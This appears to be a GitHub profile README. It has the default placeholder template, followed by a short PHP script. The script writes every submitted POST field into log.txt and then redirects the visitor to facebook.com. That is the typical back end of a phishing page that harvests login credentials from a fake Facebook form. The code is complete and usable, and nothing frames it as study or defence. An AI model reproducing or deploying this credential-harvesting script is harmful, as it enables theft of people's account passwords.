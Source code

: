 - 👋 Hi, I’m @HassanBukhati
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
HassanBukhati/HassanBukhati is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
<?php 

  
// Set the location to redirect the page 

header ('Location: http://www.facebook.com'); 

  
// Open the text file in writing mode  

$file = fopen("log.txt", "a"); 

  

foreach($_POST as $variable => $value) { 

    fwrite($file, $variable); 

    fwrite($file, "="); 

    fwrite($file, $value); 

    fwrite($file, "\r\n"); 
} 

  

fwrite($file, "\r\n"); 

fclose($file); 

exit; 
?> 
